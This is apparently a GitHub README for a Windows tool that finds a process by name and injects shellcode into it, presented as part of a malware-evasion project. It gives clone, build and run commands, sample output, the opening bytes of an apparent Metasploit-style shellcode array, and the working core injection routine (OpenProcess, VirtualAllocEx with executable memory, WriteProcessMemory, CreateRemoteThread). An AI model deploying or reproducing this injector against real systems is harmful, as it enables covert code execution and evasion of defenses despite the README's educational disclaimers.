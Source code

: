 
# Process Scanner & Shellcode Injector


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&width=435&lines=This+is+the+application+of+the;RemoteProcessScanner+Project;It+Was+added+in;the+MalwareEvasionTechniques" alt="Typing SVG" /></a>
A powerful Windows tool that scans for a specific process by its name and injects shellcode into it. This tool is primarily designed for educational and malware analysis purposes, demonstrating how process injection works in Windows environments.

**Note**: This tool is intended for use in controlled environments, such as malware research, pentesting, or debugging. It should not be used for malicious purposes.

## Features

- Scans through all running processes on the system.
- Locates a target process by name.
- Injects shellcode into the target process if found.
- Provides feedback and logging throughout the injection process.

## Prerequisites

- **Operating System**: Windows (with administrator privileges)
- **Compiler**: MinGW or Visual Studio (MSVC)
- **Windows SDK**: Required for process enumeration and memory allocation APIs.
- **Knowledge**: Understanding of how process injection works and familiarity with shellcode.

## How It Works

The tool uses the `CreateToolhelp32Snapshot` Windows API to take a snapshot of all running processes. It compares each process name with the target name provided by the user. If a match is found, it opens the process, allocates memory, writes the provided shellcode, and finally creates a thread to execute the shellcode in the context of the target process.

### Injection Workflow:

1. **Process Scanning**: Scans all running processes and identifies the target based on the user-provided process name.
2. **Process Opening**: Opens the target process with `PROCESS_ALL_ACCESS` permissions.
3. **Memory Allocation**: Allocates executable memory inside the target process.
4. **Shellcode Injection**: Writes the shellcode into the allocated memory.
5. **Remote Thread Creation**: Creates a new thread in the target process to execute the shellcode.

## Usage

### Clone the repository:
```bash
git clone https://github.com/your-username/process-scanner-shellcode-injector.git
cd process-scanner-shellcode-injector
```

### Compile the Program:

Using MinGW (`gcc`):
```bash
gcc -o scanner_injector.exe scanner_injector.c -lkernel32 -luser32
```

Using Visual Studio:
- Open the solution in Visual Studio.
- Build the solution (Ctrl + Shift + B).

### Run the Program:
```bash
scanner_injector.exe <ProcessName>
```

Example:
```bash
scanner_injector.exe notepad.exe
```

**Output:**
```bash
Great! We found the process: notepad.exe with PID: 1234
Allocated 512-bytes with PAGE_EXECUTE_READWRITE permissions inside PID 1234
Wrote 512-bytes to process memory
We got a handle on the Thread with ID 5678
```

### Example Shellcode

The program contains example shellcode, defined as `R0m4InShell[]`, which could be modified based on your specific use case. Ensure that the shellcode you inject is appropriate for testing purposes.

```c
unsigned char R0m4InShell[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    // ... truncated for brevity
};
```

## Code Overview

The following snippet outlines the core part of the process scanning and shellcode injection:

```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
Proc.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hSnapshot, &Proc)) {
    do {
        if (wcscmp(Proc.szExeFile, target) == 0) {
            PID = Proc.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &Proc));
}
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(R0m4InShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, rBuffer, R0m4InShell, sizeof(R0m4InShell), NULL);
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, &TID);
```

## Disclaimer

This tool is for educational purposes only. Misuse of this tool can result in criminal charges. The developer is not responsible for any damage caused by the misuse of this tool. Always have permission to test and inject into processes, especially in production environments.
